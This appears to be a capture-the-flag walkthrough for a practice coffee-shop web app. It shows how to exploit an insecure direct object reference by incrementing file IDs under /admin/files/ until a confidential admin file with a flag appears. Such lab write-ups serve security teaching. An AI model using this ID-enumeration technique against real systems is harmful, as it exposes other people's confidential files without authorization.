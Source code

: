#### Actions:

1. **From the admin dashboard**, locate the "Admin File Server" section

2. **Click** on "View File 1 (Company Overview)"
   - URL: `/admin/files/1`
   - This shows the company overview document

3. **Observe** the URL pattern:
   ```
   /admin/files/{id}
   ```

4. **Read the hint:**
   > "Are there more files beyond ID 4? 🤔"

5. **Exploit IDOR** by manually incrementing the file ID:

   **File ID 2 - Sales Report:**
   ```
   /admin/files/2
   ```
   
   **File ID 3 - Employee Directory:**
   ```
   /admin/files/3
   ```
   
   **File ID 4 - Marketing Plan:**
   ```
   /admin/files/4
   ```
   
   **File ID 5 - SECRET ADMIN BACKUP:**
   ```
   /admin/files/5
   ```

6. **Access File ID 5** - you'll see:
   ```
   ************************************************************************************

   CONFIDENTIAL - ADMIN ACCESS ONLY

   BrewMaster Coffee - Secret Administrative File
   ===============================================

   🚩 CTF FLAG: You_Found_The_Secret_File!

   Congratulations! You've successfully exploited the IDOR vulnerability.

   IDOR (Insecure Direct Object Reference) occurs when applications expose
   internal implementation objects (like file IDs) without proper authorization.

   Get the final flag by decoding this:
   aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj1kUXc0dzlXZ1hjUSZsaXN0PVJEZFF3NHc5V2dYY1E=

   Document ID: 5

   ************************************************************************************
   ```
